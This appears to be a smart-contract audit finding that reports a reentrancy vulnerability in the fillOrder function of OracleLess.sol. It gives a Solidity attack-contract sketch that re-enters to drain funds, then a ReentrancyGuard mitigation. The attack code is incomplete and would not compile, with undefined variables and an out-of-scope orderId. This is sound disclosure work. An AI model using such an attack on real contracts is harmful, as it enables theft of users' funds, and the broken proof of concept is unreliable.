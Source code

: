 Sunny Ultraviolet Boa

High

# Reentrancy Exploit in OracleLess Order Execution

### Summary

High-severity reentrancy vulnerability identified in OracleLess.sol where the order execution flow permits malicious contracts to re-enter and manipulate protocol state through unprotected external calls.

### Root Cause

```solidity
function fillOrder(
    uint96 pendingOrderIdx,
    uint96 orderId,
    address target,
    bytes calldata txData
) external {
    Order memory order = orders[orderId];
    
    // Unprotected external call before state update
    (uint256 amountOut, ) = execute(target, txData, order);
    
    // Critical state changes occur after
    pendingOrderIds = ArrayMutation.removeFromArray(pendingOrderIdx, pendingOrderIds);
    // ... token transfers and accounting
}
```

### Internal pre-conditions

1. Active order in system
2. No reentrancy protection
3. Mutable protocol state
4. External call with user-supplied parameters

### External pre-conditions

1. Deployed malicious contract
2. Valid order creation
3. Protocol liquidity > attack minimum

### Attack Path

```solidity
contract ReentrancyAttack {
    uint256 private attackCount;
    address private victim;
    
    function attack(uint96 orderId) external {
        // Initial order creation
        bytes memory maliciousData = abi.encodeWithSignature("exploit()");
        OracleLess(victim).fillOrder(0, orderId, address(this), maliciousData);
    }
    
    function exploit() external {
        if (attackCount < 3) {
            attackCount++;
            // Re-enter with same orderId
            OracleLess(victim).fillOrder(0, orderId, address(this), "");
        } else {
            // Complete attack
            token.transfer(msg.sender, amount);
        }
    }
}
```

1. Deploy attack contract
2. Create legitimate order (1000 USDT)
3. Trigger attack sequence:
    - First entry: Normal execution starts
    - Reentry 1: Duplicate execution
    - Reentry 2: State manipulation
    - Final: Extract funds

### Impact

- Multiple executions of single order
- Token balance manipulation
- Protocol accounting corruption
- Unauthorized fund extraction

### Mitigation

```solidity
contract OracleLess is ReentrancyGuard {
    function fillOrder(
        uint96 pendingOrderIdx,
        uint96 orderId,
        address target,
        bytes calldata txData
    ) external nonReentrant {
        Order memory order = orders[orderId];
        
        // Remove order first
        delete orders[orderId];
        pendingOrderIds = ArrayMutation.removeFromArray(pendingOrderIdx, pendingOrderIds);
        
        // Execute swap after state update
        (uint256 amountOut, ) = execute(target, txData, order);
        
        // Handle transfers
        finalizeTransfers(order, amountOut);
    }
}
```